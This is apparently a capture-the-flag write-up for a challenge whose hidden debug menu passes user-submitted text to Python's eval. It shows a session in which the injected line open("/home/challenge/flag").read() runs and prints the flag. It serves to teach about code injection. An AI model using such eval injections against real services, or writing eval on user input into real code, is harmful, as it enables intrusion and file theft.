 ## Solution

This challenge is quite straightforward because participants have access to the source code. Upon reviewing it, you'll discover a hidden debug menu and notice that it uses the eval function. The goal is to input your own code into this eval call. Analyzing the code indicates that to achieve code execution, a player simply needs to submit a carefully crafted Python code snippet as a document.


```
Now what would you like to do ?
1. Query for a function
2. Exit
>> 1337
What would you like to do ?
1. Dump the chromadb
2. Add a collection
3. Add a document
4. Go back
>> 3
Enter the body of the function
>> open("/home/challenge/flag").read()
Enter the explanation of the function
>> ads
Using id as  func_96
Function added successfully and execution logs are as follows:
ictf{m1nd_y0ur_3v4l5_4nd_d0n'7_l37_u53r_c0d3_r34ch_3v4l}
```